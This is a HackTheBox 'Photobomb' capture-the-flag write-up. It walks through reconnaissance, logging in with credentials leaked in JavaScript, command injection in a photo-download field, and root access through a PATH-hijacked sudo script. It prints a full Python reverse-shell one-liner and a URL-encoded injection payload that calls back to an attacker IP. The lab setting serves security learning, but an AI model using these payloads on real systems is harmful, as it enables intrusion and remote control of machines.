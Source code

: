 ![image1](https://github.com/visionthex/IDOR-Walkthrough/blob/main/Images/image2.png)
[HACKTHEBOX](https://hackthebox.com)

# HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

No alt text provided for this image
Nmap Scan

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of `10.129.228.60`, we can explore the contents available on this specific port.

No alt text provided for this image
IP Showing URL Name

At this point, we need to include the new URL `photobomb.htb` to the `/etc/hosts` file to access the corresponding webpage. From here we will nano into the `/etc/hosts` file.

No alt text provided for this image
etc/hosts file

With the updated IP and URL added to the `/etc/hosts` file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

No alt text provided for this image
Webpage working properly

On the page, we have a hyperlink "click here!" that leads to `photobomb.htb/printer`. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials [![Credentials](https://img.shields.io/badge/admin:-admin-red)](https://shields.io/), but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

No alt text provided for this image
Login

No alt text provided for this image
401 Authorization Required Link: photobomb.htb/printer

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

No alt text provided for this image
photobomb.js file that show credentials

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials [![Credentials](https://img.shields.io/badge/pH0t0:-b0Mb!-green)](https://shields.io/).

No alt text provided for this image
Login page for phtobomb.htb/printer

No alt text provided for this image
Bottom of page with Download Photo button

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

No alt text provided for this image
Intercepting with BurpSuite

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the `&filetype=jpg&` field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```

No alt text provided for this image
URL Encoded Reverse Shell

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

No alt text provided for this image
Netcat Listener | User Wizard

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

No alt text provided for this image
Traversing Directories found User Flag

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

No alt text provided for this image
Sudo -l

Using the command `sudo -l`, we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command `/opt/clean.sh`. To proceed, we will investigate the `/opt/clean.sh` file by running the `cat /opt/clean.sh` command. This will display the contents of the file in the terminal.

No alt text provided for this image
cat /opt/cleanup.sh

In the next step, we need to switch to the bash shell and then set the executable permission for the `find` file to gain complete access. We can accomplish this by running `chmod +x find`. The command `echo bash > find` will create a file named `find` in the current directory and write the string `bash` to it. If the file already exists, it will be overwritten.

No alt text provided for this image
echo bash > find | chmod +x find

The next command is `sudo PATH=$PWD:$PATH /opt/cleanup.sh`. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the `/opt/clean.sh` script with sudo, which will execute with root privileges because of the sudo command.

No alt text provided for this image
Root Access

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

No alt text provided for this image
Root Flag
